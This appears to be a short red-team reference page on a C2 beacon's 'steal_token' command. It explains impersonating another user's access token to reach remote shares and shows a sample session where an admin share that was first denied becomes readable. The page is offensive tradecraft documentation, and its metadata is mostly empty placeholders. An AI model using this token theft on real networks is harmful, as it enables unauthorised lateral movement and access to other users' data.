 # Steal Token
The `steal_token` command will impersonate the access token of the target process. Like `make_token`, only for network, not local actions.

This command opens a handle to another users target process in order to duplicate and impersonate the access token, and therefore requires local admin privileges.
``````beacon
beacon> ls \\srv2\c$
[-] could not open \\srv2\c$\*: 5

beacon> steal_token 3320
[+] Impersonated EDU\doe

beacon> ls \\srv2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 dir     05/10/2022 04:11:30   $Recycle.Bin
 dir     05/10/2022 03:23:44   Boot
 ``````

## Tools
########
########


```meta
ttp: T1000
requirements: admin
results: 
description: 
```
